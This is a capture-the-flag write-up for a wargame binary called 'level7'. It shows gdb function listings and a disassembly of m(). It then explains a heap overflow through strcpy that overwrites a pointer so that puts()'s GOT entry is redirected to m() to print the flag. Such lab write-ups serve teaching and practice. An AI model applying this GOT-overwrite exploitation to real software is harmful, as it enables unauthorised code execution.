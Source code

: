 ## level7

The `level7` expects at least two arguments otherwise it will crash. There are two functions, `main()` and `m()` and `m()` is naver called from `main()` we can see it using:
```
(gdb) info functions

Non-debugging symbols:
0x0804836c  _init
0x080483b0  printf
0x080483b0  printf@plt
0x080483c0  fgets
0x080483c0  fgets@plt
0x080483d0  time
0x080483d0  time@plt
0x080483e0  strcpy
0x080483e0  strcpy@plt
0x080483f0  malloc
0x080483f0  malloc@plt
0x08048400  puts
0x08048400  puts@plt
0x08048410  __gmon_start__
0x08048410  __gmon_start__@plt
0x08048420  __libc_start_main
0x08048420  __libc_start_main@plt
0x08048430  fopen
0x08048430  fopen@plt
0x08048440  _start
0x08048470  __do_global_dtors_aux
0x080484d0  frame_dummy
0x080484f4  m                      <-----------------
0x08048521  main
0x08048610  __libc_csu_init
0x08048680  __libc_csu_fini
0x08048682  __i686.get_pc_thunk.bx
0x08048690  __do_global_ctors_aux
0x080486bc  _fini
```
Many of those functions are from main because the `m()` functions is a relly short one
```
0x080484f4 <+0>:	push   ebp
0x080484f5 <+1>:	mov    ebp,esp
0x080484f7 <+3>:	sub    esp,0x18
0x080484fa <+6>:	mov    DWORD PTR [esp],0x0
0x08048501 <+13>:	call   0x80483d0 <time@plt>
0x08048506 <+18>:	mov    edx,0x80486e0
0x0804850b <+23>:	mov    DWORD PTR [esp+0x8],eax
0x0804850f <+27>:	mov    DWORD PTR [esp+0x4],0x8049960
0x08048517 <+35>:	mov    DWORD PTR [esp],edx
0x0804851a <+38>:	call   0x80483b0 <printf@plt>
0x0804851f <+43>:	leave
0x08048520 <+44>:	ret
```
Disassembling `main()` we see four calls to `malloc()`, two calls to `strcpy()` *(we know `strpcy()` is vulnerable)*, one call to `fopen()`, one call to `fgets()` and one last call to `puts()`. <br> Every call to `malloc()` is made with an `0x8 bytes`.<br> Both `strcpy()` are taking the arguments as it's seconde parameter `strcpy(*dst, argv[1]) - strcpy(*dst, argv[2])` *(that is the reason it will crash if less than two parameters is passed)*
```
~$ gdb -q level7
b *0x080485a0
b *0x080485bd
(gdb) r
Breakpoint 1, 0x080485a0 in main ()
x/s $edx
0xbffff8c3:	 "AAA"
(gdb) r
Breakpoint 2, 0x080485bd in main ()
x/s $edx
0xbffff8c7:	 "BBB"
```

We can use the first `strcpy(*dest, 20 * 'A' + 08049928)` to overflow  and overwrite the  __address__ *(first argument passed to the second `strcpy(*dest <--, *src)`)* and if we place the __address__ of the `GOT` *(yes the same strategy as in `level5`)* of the function  `puts()` and we place  the __address__ of function `m()` to be passed as argument to the second `strcpy()` this function will execute and we will get our flag.
